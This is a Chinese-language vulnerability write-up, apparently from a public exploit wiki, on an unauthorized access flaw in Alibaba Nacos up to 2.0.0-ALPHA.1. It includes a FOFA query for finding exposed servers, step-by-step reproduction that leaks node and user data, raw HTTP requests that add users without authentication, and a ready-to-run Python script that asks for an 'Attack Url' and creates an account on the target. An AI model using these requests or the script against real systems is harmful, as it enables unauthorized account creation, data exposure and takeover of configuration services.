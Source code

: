# Alibaba Nacos 未授权访问漏洞

## 漏洞描述

2020年12月29日，Nacos官方在github发布的issue中披露Alibaba Nacos 存在一个由于不当处理User-Agent导致的未授权访问漏洞 。通过该漏洞，攻击者可以进行任意操作，包括创建新用户并进行登录后操作。

## 漏洞影响

```
Nacos <= 2.0.0-ALPHA.1
```

## FOFA

```
title="Nacos"
```

## 环境搭建

https://github.com/alibaba/nacos/releases/tag/2.0.0-ALPHA.1

```shell
wget https://github.com/alibaba/nacos/releases/tag/2.0.0-ALPHA.1
tar -zxvf nacos-server-2.0.0-ALPHA.1.tar.gz
./startup.sh -m standalone
```



然后访问 http://xxx.xxx.xxx.xxx:8848/nacos 即可，默认账号密码 **nacos/nacos**

![](./images/202202102003931.png)



## 漏洞复现

可以再项目的 issues 中看到大量的关于越权的安全问题的讨论



https://github.com/alibaba/nacos/issues/1105



![2](./images/202202102003894.png)

![3](./images/202202102003898.png)



这里我们在登录后任意一个位置看一下请求，并在未授权的情况下看是否可以访问



![](./images/202202102004781.png)



这里的请求url简化为



http://xxx.xxx.xxx.xxx:8848/nacos/v1/core/cluster/nodes?withInstances=false&pageNo=1&pageSize=10&keyword=



退出用户后在前台访问这个 url



![](./images/202202102004013.png)



可以发现以及泄露了 **ip节点** 等数据



同样我们查看用户列表的请求并在前台访问



http://xxx.xxx.xxx.xxx:8848/nacos/v1/auth/users?pageNo=1&pageSize=9



![6](./images/202202102004595.png)

![7](./images/202202102004600.png)



这里可以发现对用户的请求是完全没有过滤的，可以通过未授权的情况获取用户的敏感信息



我们尝试创建用户并抓包



![](./images/202202102004325.png)



返回下列创建成功



```plain
{"code":200,"message":"create user ok!","data":null}
```



同样的我们简化请求



```plain
POST /nacos/v1/auth/users?
username=peiqi&password=peiqi
```



![9](./images/202202102004662.png)

![10](./images/202202102004665.png)



看到有文章说要加上**User-Agent请求头**



```plain
User-Agent: Nacos-Server
```



但是大量测试之后发现好像是无关紧要的，没有请求头同样可以创建用户

- 同样的原理也可以用于修改密码添加配置等

## 漏洞POC

```
# 添加用户
POST /nacos/v1/auth/users HTTP/1.1
Host: 127.0.0.1
User-Agent: Nacos-Server
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/
*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

username=aaaa&password=bbbb
```

```
# 查看用户
GET /nacos/v1/auth/users?pageNo=1&pageSize=100 HTTP/1.1
Host: 127.0.0.1
User-Agent: Nacos-Server
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;
q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
```

- 注意下大部分企业的 nacos的url为 /v1/auth/users ，而不是  /nacos/v1/auth/users
- 可以按目标情况自行修改

```python
import requests
import sys
import random
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Nacos <= 2.0.0-ALPHA.1                                   \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    # vuln_url = target_url + "/nacos/v1/auth/users"
    vuln_url = target_url + "/v1/auth/users"
    headers = {
        "User-Agent": "Nacos-Server",
        "Content-Type": "application/x-www-form-urlencoded",
    }
    number = random.randint(0,999)
    data = "username=peiqi{}&password=peiqi".format(str(number))
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        print("\033[32m[o] 正在请求 {}/nacos/v1/auth/users \033[0m".format(target_url))
        if "create user ok!" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 \033[0m".format(target_url))
            print("\033[32m[o] 成功创建账户 peiqi{} peiqi\033[0m".format(str(number)))
        else:
            print("\033[31m[x] 创建用户请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](./images/202202102004659.png)


